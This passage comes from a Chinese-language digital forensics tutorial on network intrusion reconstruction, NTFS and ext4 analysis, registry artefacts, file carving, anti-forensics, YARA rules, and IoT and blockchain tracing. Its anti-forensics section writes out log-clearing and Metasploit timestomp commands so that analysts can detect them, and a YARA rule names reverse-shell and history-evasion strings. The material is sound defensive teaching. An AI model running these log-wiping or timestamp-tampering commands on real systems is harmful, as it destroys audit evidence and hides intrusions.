tshark -r capture.pcap -Y "dns.flags.rcode != 0" \
    -T fields -e dns.qry.name | sort | uniq -c | sort -rn > /evidence/failed_dns.txt

# 对比已知的恶意域名列表
# 下载恶意域名列表：https://github.com/stamparm/maltrail
# 或使用 VirusTotal API 查询可疑域名
```

### 5.2 入侵重建

网络取证的最终目标是重建攻击者的完整活动过程。以下是重建的典型流程：



```bash
# 重建特定 IP 的完整活动
# 提取攻击者 IP 的所有 TCP 流
tshark -r capture.pcap -q -z conv,ip,10.0.0.50

# 导出特定 TCP 流的完整内容
tshark -r capture.pcap -z "follow,tcp,ascii,42" > /evidence/stream_42.txt

# 使用 Zeek（前 Bro）自动生成连接日志
zeek -r capture.pcap
# 生成 conn.log, http.log, dns.log, ssl.log 等标准化日志

# 使用 Zeek 的 Intel 框架检测已知 IoC
# 编写 intel 文件
cat > /evidence/intel.dat << 'EOF'
#indicator	indicator_type	meta.source	meta.desc
10.0.0.50	Intel::ADDR	case20240315	attacker IP
malware.example.com	Intel::DOMAIN	case20240315	C2 domain
EOF

zeek -r capture.pcap frameworks/intel/do_notice
```

## 六、文件系统取证深度解析

### 6.1 NTFS 文件系统取证

NTFS 是 Windows 的主力文件系统，理解其内部结构对 Windows 取证至关重要。

#### 6.1.1 MFT 深度分析

MFT（Master File Table）是 NTFS 的核心——它为每个文件和目录维护一条记录，包含文件的所有元数据。

```bash
# 使用 fls（The Sleuth Kit）列出 MFT 记录
fls -r -m / /dev/sda1 > /evidence/bodyfile.txt
# 输出格式：MD5|name|inode|mode|UID|GID|size|atime|mtime|ctime|crtime

# 使用 istat 查看特定 MFT 记录的详细信息
istat /dev/sda1 12345
# 输出示例：
# MFT Entry: 12345
# Sequence: 7
# $STANDARD_INFORMATION:
#   Created:  2024-03-15 09:30:00.000000000
#   Modified: 2024-03-15 10:15:00.000000000
#   Accessed: 2024-03-15 10:15:00.000000000
#   Changed:  2024-03-15 10:15:00.000000000
# $FILE_NAME:
#   Created:  2024-03-15 09:30:00.000000000
#   Modified: 2024-03-15 09:30:00.000000000
#   Accessed: 2024-03-15 09:30:00.000000000
#   Changed:  2024-03-15 09:30:00.000000000
#   Name: secret_document.docx
# Data Attributes:
#   Type: $DATA (128-1)
#   Size: 45678
#   Run: 50000-50022

# 关键：$STANDARD_INFORMATION 和 $FILE_NAME 的时间戳可能不同
# 攻击者可以修改 $STANDARD_INFORMATION 的时间戳（Timestomping）
# 但 $FILE_NAME 的时间戳通常不变——因此对比两者可以发现篡改

# 使用 mft_parser 提取完整的 MFT
icat /dev/sda1 0 > /evidence/mft.raw
# 然后用 analyzeMFT.py 分析
python3 analyzeMFT.py -f /evidence/mft.raw -o /evidence/mft_analysis.csv
```

#### 6.1.2 NTFS 日志分析

NTFS 维护两个关键日志文件，记录文件系统的所有变更：

```bash
# $LogFile：NTFS 事务日志
# 记录文件系统的元数据操作，可以用于恢复被删除的文件信息
icat /dev/sda1 2 > /evidence/logfile.raw
# 使用 NTFS Log Tracker 分析
python3 ntfs_log_tracker.py /evidence/logfile.raw > /evidence/logfile_analysis.txt

# $UsnJrnl：更新序列号日志（USN Journal）
# 记录所有文件的创建、删除、重命名、截断操作
# 这是取证的金矿——即使文件已被彻底删除，USN Journal 中仍可能有记录
icat /dev/sda1 28 > /evidence/usnjrnl.raw
# 使用 MFTECmd（Eric Zimmerman 工具）解析
MFTECmd.exe -f "C:\$MFT" --csv /evidence/mft_parsed/
MFTECmd.exe -f "C:\$Extend\$UsnJrnl:$J" --csv /evidence/usnjrnl_parsed/

# USN Journal 记录示例：
# USN: 12345678
# Timestamp: 2024-03-15 09:30:00
# File: secret_document.docx
# Reason: FILE_CREATE (文件创建)
#
# USN: 12345679
# Timestamp: 2024-03-15 10:15:00
# File: secret_document.docx
# Reason: DATA_EXTEND, CLOSE (数据写入并关闭)
#
# USN: 12345680
# Timestamp: 2024-03-15 10:20:00
# File: secret_document.docx
# Reason: FILE_DELETE (文件删除)
```

#### 6.1.3 Windows 注册表取证

Windows 注册表是取证的另一个金矿，它记录了用户活动的方方面面：

```bash
# 注册表关键配置单元的位置
# C:\Windows\System32\config\SAM         # 用户账户数据库
# C:\Windows\System32\config\SYSTEM      # 系统配置
# C:\Windows\System32\config\SOFTWARE    # 已安装软件
# C:\Users\<user>\NTUSER.DAT             # 用户配置文件
# C:\Users\<user>\AppData\Local\Microsoft\Windows\UsrClass.dat  # 用户类注册信息

# 使用 RegRipper 解析注册表
# SAM 数据库——用户账户信息
rip.pl -r SAM -a sam > /evidence/reg_sam.txt
# 输出：用户名、SID、最后登录时间、登录次数、密码哈希

# SYSTEM——系统信息和已安装的服务
rip.pl -r SYSTEM -a system > /evidence/reg_system.txt
# 包含：计算机名、时区、网络接口、已安装的服务

# NTUSER.DAT——用户活动
rip.pl -r NTUSER.DAT -a userassist > /evidence/reg_userassist.txt
# UserAssist 记录了用户通过 Explorer 运行的所有程序（ROT13 编码）
# 可以看到程序名称、运行次数、最后运行时间

rip.pl -r NTUSER.DAT -a recentdocs > /evidence/reg_recentdocs.txt
# 最近打开的文档列表

# ShimCache（Application Compatibility Cache）分析
# 记录了系统上运行过的所有可执行文件
rip.pl -r SYSTEM -a appcompatcache > /evidence/reg_shimcache.txt

# AmCache.hve 分析
# 记录了更详细的程序执行信息，包括 SHA-1 哈希
# C:\Windows\AppCompat\Programs\AmCache.hve
AmcacheParser.exe -f AmCache.hve --csv /evidence/amcache/
```

**注册表取证的关键检查点：**

| 注册表路径 | 取证价值 | 信息类型 |
|-----------|----------|----------|
| HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\UserAssist | 用户运行过的程序 | 程序名、运行次数、最后运行时间 |
| HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\RecentDocs | 最近打开的文件 | 文件名、打开时间 |
| HKLM\SYSTEM\CurrentControlSet\Services | 已安装的服务 | 服务名、路径、启动类型（后门检测） |
| HKCU\Software\Microsoft\Windows\CurrentVersion\Run | 自启动程序 | 程序路径（持久化检测） |
| HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\ProfileList | 用户配置文件 | SID、配置文件路径、最后登录时间 |
| HKLM\SYSTEM\CurrentControlSet\Control\TimeZoneInformation | 时区设置 | 时区名称（时间戳解读的关键） |
| HKCU\Network | 映射的网络驱动器 | 驱动器号、远程路径 |

### 6.2 Linux Ext4 文件系统取证

```bash
# 使用 The Sleuth Kit 分析 Ext4 文件系统

# 查看文件系统信息
fsstat /dev/sda1
# 输出：块大小、块组数量、挂载时间、最后检查时间

# 列出所有文件（包括已删除的，用 * 标记）
fls -r -f ext4 /dev/sda1

# 恢复已删除的文件
# 首先找到已删除文件的 inode 号（fls 输出中带 * 号的行）
icat -f ext4 /dev/sda1 12345 > /evidence/recovered_file.bin

# 分析文件的元数据（时间戳、权限、链接数）
istat -f ext4 /dev/sda1 12345

# Linux 特有的关键取证路径
# /var/log/auth.log      — 认证日志（登录、sudo、su）
# /var/log/syslog        — 系统日志
# /var/log/kern.log      — 内核日志
# /var/log/audit/audit.log — 审计日志（如果启用了 auditd）
# /var/log/apache2/      — Web 服务器日志
# /home/*/.bash_history  — 命令历史
# /etc/passwd            — 用户账户
# /etc/shadow            — 密码哈希
# /etc/crontab           — 定时任务
# /var/spool/cron/crontabs/ — 用户定时任务
# /tmp/                  — 临时文件（攻击者常在此存放工具）

# 使用 log2timeline 生成 Linux 时间线
log2timeline.py --storage-file /evidence/timeline.plaso /dev/sda1
psort.py -o l2tcsv /evidence/timeline.plaso -w /evidence/timeline.csv
```

### 6.3 文件雕刻（File Carving）

当文件系统元数据（如 MFT 记录、inode）已被覆盖或损坏时，文件雕刻是最后的恢复手段——它基于文件内部的特征（文件头、文件尾、内部结构）从未分配空间中恢复文件。

```bash
# 使用 Scalpel 进行文件雕刻
# 首先配置雕刻规则
cat > /etc/scalpel/scalpel.conf << 'EOF'
# 文件类型  是否启用  大小限制   头部特征                              尾部特征
pdf         y         10000000   %PDF                                  %%EOF
png         y         10000000   \x89PNG\x0d\x0a\x1a\x0a              \x00\x00\x00\x00IEND
jpg         y         10000000   \xff\xd8\xff                          \xff\xd9
docx        y         50000000   PK\x03\x04                           PK\x05\x06
zip         y         50000000   PK\x03\x04                           PK\x05\x06
mp4         y         50000000   \x00\x00\x00\x18\x66\x74\x79\x70    \x00\x00\x00\x00
sqlite      y         10000000   SQLite format 3\x00                   \x00\x00\x00
EOF

# 执行雕刻
scalpel -o /evidence/carved/ /dev/sda1

# 使用 Foremost（另一个雕刻工具）
foremost -t all -i /dev/sda1 -o /evidence/foremost_output/

# 使用 PhotoRec（图形界面，适合初学者）
# photorec /dev/sda1

# 使用 bulk_extractor 进行内容级提取
# 它不关心文件边界，直接从原始数据中提取特定类型的信息
bulk_extractor -o /evidence/bulk_output/ /evidence/disk.img
# 输出目录包含：
# email.txt    — 提取的所有邮箱地址
# url.txt      — 提取的所有 URL
# ccn.txt      — 信用卡号码
# pii.txt      — 个人信息（电话号码、身份证号等）
# domain.txt   — 所有域名
```

## 七、反取证技术与应对

反取证（Anti-Forensics）是指攻击者使用各种技术手段来阻碍或误导取证人员的工作。了解反取证技术是取证人员的必修课——只有知道攻击者如何隐藏，才能知道如何发现。

### 7.1 常见反取证技术

#### 7.1.1 时间戳篡改（Timestomping）

攻击者修改文件的时间戳来混淆取证人员的时间线分析。

```bash
# 攻击者可以使用 timestomp 工具修改所有时间戳
# 在 Metasploit 中：
meterpreter > timestomp secret.docx -m "01/01/2020 00:00:00"
meterpreter > timestomp secret.docx -a "01/01/2020 00:00:00"
meterpreter > timestomp secret.docx -c "01/01/2020 00:00:00"
meterpreter > timestomp secret.docx -e "01/01/2020 00:00:00"
# 分别修改 MACE 时间（Modified, Accessed, Created, Entry Modified）

# 检测方法：
# 1. 对比 $STANDARD_INFORMATION 和 $FILE_NAME 的时间戳
#    正常情况下两者应该接近，如果差距很大说明被篡改
# 2. 检查时间戳的逻辑一致性
#    例如：文件的创建时间晚于修改时间——不合逻辑
# 3. 检查 USN Journal 中的记录
#    USN Journal 记录了真实的文件操作时间，通常不会被攻击者清除
# 4. 检查 $LogFile
#    NTFS 事务日志中也有文件操作记录

# 使用 Sleuth Kit 检测时间戳异常
fls -r -m / /dev/sda1 > /evidence/bodyfile.txt
# 导出后用脚本检查时间戳逻辑一致性
python3 - << 'EOF'
import csv
with open('/evidence/bodyfile.txt') as f:
    reader = csv.reader(f, delimiter='|')
    for row in reader:
        if len(row) >= 10:
            name, crtime, mtime, ctime, atime = row[1], row[9], row[7], row[8], row[6]
            # 检查：创建时间是否晚于修改时间
            if crtime and mtime and crtime > mtime:
                print(f"SUSPECT: {name} - created ({crtime}) after modified ({mtime})")
EOF
```

#### 7.1.2 数据隐藏技术

**隐写术（Steganography）**：将秘密数据嵌入到看起来正常的文件（如图片、音频、视频）中。

```bash
# 检测图片中的隐写术
# 使用 stegdetect 检测 JSteg、OutGuess 等工具的隐写
stegdetect suspect_image.jpg
# 输出示例：
# suspect_image.jpg : jsteg(***)

# 使用 zsteg 检测 PNG/BMP 中的隐写
zsteg suspect_image.png
# 输出示例：
# b1,rgb,lsb         .. text: "SECRET_DATA_HIDDEN_HERE"
# b1,rgb,msb         .. file: MPEG ADTS, layer III

# 使用 binwalk 检测文件中嵌入的其他文件
binwalk suspect_file.jpg
# 输出示例：
# DECIMAL       HEXADECIMAL     DESCRIPTION
# 0             0x0             JPEG image data
# 34567         0x8707          ZIP archive
# 这意味着 JPEG 文件中嵌入了一个 ZIP 文件

# 提取嵌入的文件
binwalk -e suspect_file.jpg
# 自动提取所有识别到的嵌入文件

# 使用 steghide 提取隐藏数据（如果知道密码）
steghide extract -sf suspect_image.jpg -p "password123"
```

**Slack Space 利用**：文件系统以"簇"为单位分配空间（通常 4KB），如果文件大小不是簇的整数倍，最后一个簇中会有未使用的空间（slack space）。攻击者可以在 slack space 中隐藏数据，而不会影响文件的正常使用。

```bash
# 使用 The Sleuth Kit 查看文件的 slack space
ifind /dev/sda1 /path/to/suspect_file.txt  # 获取 inode
# 然后用 icat 提取 slack space 内容
blkcat /dev/sda1 <block_number> > /evidence/slack_content.bin

# 使用 dls 提取所有未分配空间
dls /dev/sda1 > /evidence/unallocated.bin

# 在 slack space 中搜索特定字符串
strings /evidence/unallocated.bin | grep -i "password\|secret\|key"
```

#### 7.1.3 日志清除

```bash
# 攻击者常用的日志清除方法（了解以便检测）
# Linux：
# 清除 auth.log
echo "" > /var/log/auth.log
# 或更隐蔽的方法：只删除包含自己 IP 的行
sed -i '/10.0.0.50/d' /var/log/auth.log

# Windows：
# 清除事件日志
wevtutil cl Security
wevtutil cl System
wevtutil cl Application

# 检测方法：
# 1. 检查日志文件大小是否异常小或突然变为 0
# 2. 检查日志的时间连续性——正常日志应该有持续的记录，
#    突然出现大段空白说明可能被清除过
# 3. 检查日志服务的运行状态
# 4. 利用远程日志服务器（SIEM）——即使本地日志被清除，
#    已经发送到 SIEM 的日志仍然存在

# 使用 auditd 监控日志文件的完整性
# 添加审计规则：监控日志文件的删除和修改操作
auditctl -w /var/log/ -p rwa -k log_monitoring
```

### 7.2 反取证的应对策略

**策略一：多源交叉验证**。不要依赖单一数据源的时间线。将文件系统时间戳、日志记录、注册表记录、浏览器历史、网络日志等多个来源的时间线合并分析。如果攻击者篡改了文件时间戳，但日志中记录了真实的操作时间，交叉验证就能发现矛盾。

**策略二：利用底层数据**。攻击者通常只能操作文件系统层面的数据，但底层的文件系统日志（如 NTFS 的 $UsnJrnl 和 $LogFile、Ext4 的 JBD2 日志）通常不会被清除。这些底层数据是发现反取证行为的最佳证据。

**策略三：完整性监控**。部署文件完整性监控工具（如 OSSEC、Tripwire），实时记录文件的哈希值。当文件被篡改时，监控系统会生成独立的日志记录，即使攻击者事后修改了文件的时间戳，监控日志中的记录仍然存在。

## 八、取证自动化与工具链

### 8.1 自动化取证工作流

手动取证效率低下且容易遗漏。以下是一个基于 Python 的自动化取证框架示例：

```python
#!/usr/bin/env python3
"""
自动化取证分析脚本
对磁盘镜像执行一系列自动化分析任务
"""
import hashlib
import subprocess
import json
import os
from datetime import datetime

class ForensicAnalyzer:
    def __init__(self, evidence_path, output_dir):
        self.evidence = evidence_path
        self.output = output_dir
        os.makedirs(output_dir, exist_ok=True)
        self.report = {
            'case_id': datetime.now().strftime('%Y%m%d_%H%M%S'),
            'evidence': evidence_path,
            'analysis_start': datetime.now().isoformat(),
            'results': {}
        }
    
    def verify_integrity(self):
        """验证证据文件的哈希值"""
        sha256 = hashlib.sha256()
        with open(self.evidence, 'rb') as f:
            for chunk in iter(lambda: f.read(8192), b''):
                sha256.update(chunk)
        self.report['evidence_hash'] = sha256.hexdigest()
        print(f"[+] Evidence SHA-256: {self.report['evidence_hash']}")
    
    def run_sleuthkit(self):
        """执行 The Sleuth Kit 分析"""
        print("[*] Running Sleuth Kit analysis...")
        
        # 文件系统信息
        result = subprocess.run(['fsstat', self.evidence], 
                              capture_output=True, text=True)
        self.report['results']['fsstat'] = result.stdout
        
        # 文件列表
        result = subprocess.run(['fls', '-r', '-m', '/', self.evidence],
                              capture_output=True, text=True)
        bodyfile = os.path.join(self.output, 'bodyfile.txt')
        with open(bodyfile, 'w') as f:
            f.write(result.stdout)
        self.report['results']['bodyfile'] = bodyfile
        print(f"[+] Body file saved to {bodyfile}")
        
        # 已删除文件
        result = subprocess.run(['fls', '-r', '-d', self.evidence],
                              capture_output=True, text=True)
        deleted_file = os.path.join(self.output, 'deleted_files.txt')
        with open(deleted_file, 'w') as f:
            f.write(result.stdout)
        deleted_count = len(result.stdout.strip().split('\n'))
        self.report['results']['deleted_files_count'] = deleted_count
        print(f"[+] Found {deleted_count} deleted files")
    
    def run_strings_analysis(self):
        """提取并分析字符串"""
        print("[*] Extracting strings...")
        result = subprocess.run(['strings', '-n', '8', self.evidence],
                              capture_output=True, text=True)
        
        strings_file = os.path.join(self.output, 'strings.txt')
        with open(strings_file, 'w') as f:
            f.write(result.stdout)
        
        # 提取 IP 地址
        import re
        ips = re.findall(r'\b(?:\d{1,3}\.){3}\d{1,3}\b', result.stdout)
        unique_ips = list(set(ips))
        self.report['results']['ip_addresses'] = unique_ips
        print(f"[+] Found {len(unique_ips)} unique IP addresses")
        
        # 提取邮箱地址
        emails = re.findall(r'[\w.-]+@[\w.-]+\.\w+', result.stdout)
        unique_emails = list(set(emails))
        self.report['results']['email_addresses'] = unique_emails
        print(f"[+] Found {len(unique_emails)} unique email addresses")
    
    def run_yara_scan(self, rules_path):
        """使用 YARA 规则扫描"""
        print(f"[*] Running YARA scan with {rules_path}...")
        result = subprocess.run(['yara', '-r', rules_path, self.evidence],
                              capture_output=True, text=True)
        yara_file = os.path.join(self.output, 'yara_matches.txt')
        with open(yara_file, 'w') as f:
            f.write(result.stdout)
        match_count = len(result.stdout.strip().split('\n')) if result.stdout.strip() else 0
        self.report['results']['yara_matches'] = match_count
        print(f"[+] YARA found {match_count} matches")
    
    def generate_report(self):
        """生成取证报告"""
        self.report['analysis_end'] = datetime.now().isoformat()
        report_file = os.path.join(self.output, 'forensic_report.json')
        with open(report_file, 'w') as f:
            json.dump(self.report, f, indent=2, ensure_ascii=False)
        print(f"[+] Report saved to {report_file}")
        return self.report

# 使用示例
if __name__ == '__main__':
    analyzer = ForensicAnalyzer(
        evidence_path='/evidence/disk.dd',
        output_dir='/evidence/analysis_output/'
    )
    analyzer.verify_integrity()
    analyzer.run_sleuthkit()
    analyzer.run_strings_analysis()
    analyzer.run_yara_scan('/opt/yara_rules/malware_rules.yar')
    analyzer.generate_report()
```

### 8.2 时间线自动化——Plaso/log2timeline

Plaso 是目前最强大的时间线分析工具，可以从 200 多种数据源中提取时间戳并生成统一的时间线：

```bash
# 安装 Plaso
pip3 install plaso

# 第一步：从磁盘镜像提取时间线
log2timeline.py --storage-file /evidence/timeline.plaso /evidence/disk.dd
# 这个过程可能需要数小时，取决于磁盘大小

# 第二步：对时间线进行排序和过滤
psort.py -o l2tcsv /evidence/timeline.plaso -w /evidence/timeline_all.csv

# 第三步：使用时间过滤器缩小范围
psort.py -o l2tcsv /evidence/timeline.plaso \
    --date-filter "2024-03-14T00:00:00~2024-03-16T00:00:00" \
    -w /evidence/timeline_incident_period.csv

# 第四步：使用关键过滤器
# 只看文件系统事件
psort.py -o l2tcsv /evidence/timeline.plaso \
    --analysis-filter "file_stat" \
    -w /evidence/timeline_filesystem.csv

# 只看 Web 浏览历史
psort.py -o l2tcsv /evidence/timeline.plaso \
    --analysis-filter "chrome:history:entry,firefox:history:entry" \
    -w /evidence/timeline_web.csv

# 只看 Windows 事件日志
psort.py -o l2tcsv /evidence/timeline.plaso \
    --analysis-filter "winevt:record" \
    -w /evidence/timeline_winevt.csv

# 使用 pinfo 查看时间线统计信息
pinfo.py /evidence/timeline.plaso
```

### 8.3 YARA 规则——恶意文件检测

YARA 是模式匹配的瑞士军刀，用于识别和分类恶意文件：

```yara
rule Suspicious_PowerShell_Downloader {
    meta:
        description = "检测可疑的 PowerShell 下载器脚本"
        author = "Forensic Analyst"
        date = "2024-03"
        severity = "high"
    
    strings:
        $download1 = "Invoke-WebRequest" nocase
        $download2 = "DownloadString" nocase
        $download3 = "DownloadFile" nocase
        $download4 = "Net.WebClient" nocase
        $download5 = "wget" nocase
        
        $execute1 = "Invoke-Expression" nocase
        $execute2 = "IEX" nocase
        $execute3 = "Start-Process" nocase
        
        $obfusc1 = "-enc" nocase
        $obfusc2 = "-e " nocase
        $obfusc3 = "FromBase64String" nocase
        
    condition:
        any of ($download*) and any of ($execute*) or any of ($obfusc*)
}

rule Linux_Backdoor_Indicators {
    meta:
        description = "检测 Linux 后门指标"
    
    strings:
        $reverse_shell1 = "/dev/tcp/" ascii
        $reverse_shell2 = "bash -i" ascii
        $reverse_shell3 = "nc -e" ascii
        $reverse_shell4 = "mkfifo" ascii
        
        $persistence1 = "crontab" ascii
        $persistence2 = ".bashrc" ascii
        $persistence3 = "/etc/init.d/" ascii
        $persistence4 = "systemctl enable" ascii
        
        $evasion1 = "base64" ascii
        $evasion2 = "xxd" ascii
        $evasion3 = "history -c" ascii
        $evasion4 = "unset HISTFILE" ascii
        
    condition:
        any of ($reverse_shell*) or 
        (any of ($persistence*) and any of ($evasion*))
}
```

```bash
# 使用 YARA 规则扫描证据
yara -r /opt/yara_rules/forensic_rules.yar /evidence/disk_mount/ > /evidence/yara_results.txt

# 使用 yarGen 自动生成 YARA 规则（基于样本特征）
python3 yarGen.py -m /evidence/malware_samples/ --excludegood -o /evidence/auto_rules.yar
```

### 8.4 Eric Zimmerman 工具集

Eric Zimmerman 的工具是 Windows 取证的黄金标准，每一个工具都专注于一个特定的数据源：

```powershell
# MFT 分析 - MFTECmd
MFTECmd.exe -f "C:\Evidence\$MFT" --csv "C:\Output\MFT_Parsed" --csvf mft_results.csv

# 注册表分析 - Registry Explorer (GUI) 或 RECmd (CLI)
RECmd.exe -f "C:\Evidence\NTUSER.DAT" --csv "C:\Output\Registry" --csvf reg_results.csv

# Shellbag 分析 - ShellBagsExplorer
SBECmd.exe -f "C:\Evidence\NTUSER.DAT" --csv "C:\Output\Shellbags"

# Prefetch 分析（记录程序执行历史）
PECmd.exe -d "C:\Evidence\Windows\Prefetch" --csv "C:\Output\Prefetch"
# Prefetch 文件记录了程序的执行次数和最后执行时间
# 位置：C:\Windows\Prefetch\*.pf

# ShimCache 和 AmCache 分析
AppCompatCacheParser.exe -f "C:\Evidence\SYSTEM" --csv "C:\Output\ShimCache"
AmcacheParser.exe -f "C:\Evidence\AmCache.hve" --csv "C:\Output\AmCache"

# JumpList 分析（最近打开的文件和任务）
JLECmd.exe -d "C:\Evidence\AppData\Roaming\Microsoft\Windows\Recent" --csv "C:\Output\JumpLists"
# JumpList 记录了用户通过任务栏固定应用打开的最近文件

# SRUM（System Resource Usage Monitor）分析
SrumECmd.exe -f "C:\Evidence\SOFTWARE" -r "C:\Evidence\SOFTWARE" --csv "C:\Output\SRUM"
# SRUM 记录了应用的网络使用量、电量消耗等

# 批量运行所有工具的 PowerShell 脚本
$tools = @(
    @{Name="MFTECmd"; Args="-f `$mft --csv `$output/MFT"},
    @{Name="RECmd"; Args="-f `$ntuser --csv `$output/Registry"},
    @{Name="PECmd"; Args="-d `$prefetch --csv `$output/Prefetch"}
)
foreach ($tool in $tools) {
    Write-Host "[*] Running $($tool.Name)..."
    & $tool.Name $tool.Args.Split(' ')
    Write-Host "[+] $($tool.Name) completed."
}
```

## 九、IoT 取证

### 9.1 IoT 取证的特殊挑战

物联网设备的取证面临独特的困难：

**资源受限**：IoT 设备通常只有几 MB 的存储和几十 KB 的内存，没有传统的文件系统，数据存储在闪存芯片中，需要专用设备读取。

**协议多样**：IoT 设备使用各种通信协议——ZigBee、Z-Wave、BLE、LoRa、MQTT、CoAP——每种协议都有自己的取证方法。

**固件不透明**：大多数 IoT 设备的固件是闭源的，取证人员需要对固件进行逆向工程才能理解其数据存储格式。

### 9.2 IoT 取证方法

```bash
# 固件提取方法
# 1. 通过设备的调试接口（UART/JTAG/SWD）
# 使用 Bus Pirate 或逻辑分析仪识别 UART 引脚
# 连接后通常可以获取 root shell
screen /dev/ttyUSB0 115200

# 2. 通过 SPI/I2C 接口直接读取闪存芯片
# 使用 flashrom 读取 SPI 闪存
flashrom -p buspirate_spi:dev=/dev/ttyUSB0 -r firmware.bin

# 3. 通过 OTA 更新包获取固件
# 从厂商网站或设备的更新机制中下载固件更新包

# 固件分析
# 使用 binwalk 解包固件
binwalk -e firmware.bin
# 输出示例：
# DECIMAL       HEXADECIMAL     DESCRIPTION
# 0             0x0             uImage header
# 64            0x40            LZMA compressed data
# 1048576       0x100000        Squashfs filesystem

# 使用 unsquashfs 提取文件系统
unsquashfs squashfs-root/

# 分析固件中的配置文件和密钥
find squashfs-root/ -name "*.conf" -o -name "*.key" -o -name "*.pem"
strings squashfs-root/usr/bin/suspect_binary | grep -i "password\|key\|token"
```

## 十、区块链取证

### 10.1 加密货币追踪

区块链虽然是匿名的，但并不是完全不可追踪的。每一笔交易都永久记录在链上，通过分析交易图谱可以追踪资金流向。

```bash
# 使用 BlockSci 分析比特币区块链
# 安装
pip3 install blocksci

# Python 分析脚本
python3 - << 'EOF'
import blocksci

# 加载区块链数据（需要先同步完整的比特币节点）
chain = blocksci.Blockchain("/data/bitcoin")

# 查询特定地址的所有交易
address = chain.address_from_string("1A1zP1eP5QGefi2DMPTfTL5SLmv7DivfNa")
for tx in address.transactions():
    print(f"TX: {tx.hash}")
    print(f"  Block: {tx.block_height}")
    print(f"  Time: {tx.block_time}")
    for inp in tx.inputs:
        print(f"  Input: {inp.address} -> {inp.value}")
    for out in tx.outputs:
        print(f"  Output: {out.address} -> {out.value}")

# 分析地址集群（将属于同一实体的地址分组）
from blocksci.cluster import ClusterManager
cm = ClusterManager("/data/bitcoin/clusters")
cluster = cm.cluster_with_address(address)
for addr in cluster.all:
    print(f"Cluster address: {addr}")
EOF

# 使用 chainalysis API 查询地址标签
curl -H "Authorization: Bearer YOUR_API_KEY" \
    "https://api.chainalysis.com/api/risk/v2/entities/1A1zP1eP5QGefi2DMPTfTL5SLmv7DivfNa"
```

### 10.2 交易所协作

在实际的加密货币犯罪调查中，与交易所的协作至关重要。大多数交易所（Coinbase、Binance、OKX 等）都要求用户完成 KYC（身份验证），因此当追踪到资金流入交易所时，可以通过法律途径获取嫌疑人的身份信息。

## 十一、前沿趋势

### 11.1 AI 增强取证

AI 正在深刻改变数字取证的方式：

**自动化证据分类**：机器学习模型可以自动对海量文件进行分类——区分个人文件、工作文件、恶意文件，将取证人员从繁琐的手动分类中解放出来。训练数据来自已结案的取证案例，模型学习文件的元数据特征、内容特征和行为特征。

**异常行为检测**：基于用户行为分析（UEBA）的 AI 系统可以建立用户的正常行为基线，当出现异常行为（如非工作时间的大量数据下载、异常的登录地点）时自动告警。这对内部威胁调查特别有价值。

**深度伪造检测**：随着 AI 生成的虚假图片、视频和音频越来越逼真，取证领域需要专门的工具来检测深度伪造。当前的检测方法包括：分析面部微表情的一致性、检测图像频域中的异常、验证视频帧间的时间一致性。

**NLP 日志分析**：自然语言处理技术可以自动分析大量的日志文件、聊天记录和邮件内容，提取关键信息、识别威胁指标、建立事件时间线。

### 11.2 实时取证

传统取证是"事后分析"——事件发生后才开始收集证据。实时取证则是"边发生边分析"，通过持续监控系统状态，在攻击发生时就捕获证据。

**SIEM 集成**：SIEM 系统（如 Splunk、Elastic SIEM、Wazuh）是实时取证的核心平台。它将来自各个数据源（网络设备、服务器、终端、云服务）的日志集中存储、实时关联分析，并在检测到可疑活动时自动触发取证响应。

**EDR 取证**：端点检测与响应（EDR）工具（如 CrowdStrike Falcon、Microsoft Defender for Endpoint）在终端上持续监控行为，当检测到可疑活动时自动记录详细的系统状态——包括进程树、文件操作、注册表修改、网络连接——为后续取证提供完整的上下文。

## 十二、常见误区与纠正

### 误区一：只做磁盘取证就够了

**现实**：在现代安全事件中，仅靠磁盘取证远远不够。加密技术使得磁盘数据可能无法读取，无文件恶意软件在磁盘上不留痕迹，内存中的加密密钥和运行时数据是磁盘上找不到的。完整的取证策略必须包含内存取证、网络取证、日志分析和云取证。

### 误区二：哈希校验通过就没问题

**现实**：哈希校验只能证明"从计算哈希到验证哈希之间，数据没有被修改"。如果在第一次计算哈希之前数据已经被篡改，哈希校验仍然会通过。因此，哈希校验必须在接触证据的第一时间进行，而且整个保管链中每一步都要重新验证。

### 误区三：取证工具的输出可以直接作为证据

**现实**：取证工具只是辅助手段，工具的输出必须经过取证人员的人工验证和专业解读。同一个证据用不同工具分析可能得到不同结果——取证人员需要解释为什么选择某种工具、为什么信任这个结果、以及结果的局限性是什么。

### 误区四：删除的文件无法恢复

**现实**：在大多数文件系统中，"删除"只是标记空间可用，数据本身仍然存在，直到被新数据覆盖。快速格式化同样不会擦除数据。即使在 SSD 上，由于 TRIM 的延迟执行，短时间内仍可能恢复数据。只有安全擦除（多次覆写）才能真正消除数据。

### 误区五：云环境的取证由云厂商负责

**现实**：在共享责任模型下，云厂商负责基础设施的安全（物理安全、虚拟化层安全），而客户负责自身数据的安全和取证。当发生安全事件时，云厂商通常只会提供日志和快照，实际的取证分析工作仍然由客户或其委托的取证团队完成。而且，如果不及时请求，云厂商可能会因为保留策略而自动删除日志和快照。

## 十三、学习资源推荐

### 13.1 权威书籍

| 书名 | 作者 | 出版年份 | 侧重点 |
|------|------|----------|--------|
| File System Forensic Analysis | Brian Carrier | 2005 | 文件系统底层结构与取证方法论 |
| The Art of Memory Forensics | Michael Hale Ligh 等 | 2014 | 内存取证技术与 Volatility 框架实战 |
| Windows Forensic Analysis | Harlan Carvey | 2012 (第四版) | Windows 注册表、日志、事件分析 |
| Network Forensics | Ric Messier | 2017 | 网络流量捕获、协议分析、入侵重建 |
| Practical Mobile Forensics | Rohit Tamma 等 | 2020 (第四版) | iOS 和 Android 设备取证技术 |
| Digital Forensics with Kali Linux | Shiva V.N. Parasram | 2017 | 使用 Kali Linux 进行取证分析 |
| Incident Response & Computer Forensics | Jason Luttgens 等 | 2014 (第三版) | 事件响应流程与取证结合 |

### 13.2 认证培训

| 认证 | 颁发机构 | 侧重点 | 适合人群 |
|------|----------|--------|----------|
| GCFA (GIAC Certified Forensic Analyst) | SANS | Windows/ Linux 主机取证 | 中级取证分析师 |
| GCFE (GIAC Certified Forensic Examiner) | SANS | Windows 取证专家 | Windows 取证人员 |
| GNFA (GIAC Network Forensic Analyst) | SANS | 网络取证分析 | 网络安全分析师 |
| GREM (GIAC Reverse Engineering Malware) | SANS | 恶意软件逆向与取证 | 恶意软件分析师 |
| EnCE (EnCase Certified Examiner) | OpenText | EnCase 取证工具专家 | 法律取证人员 |
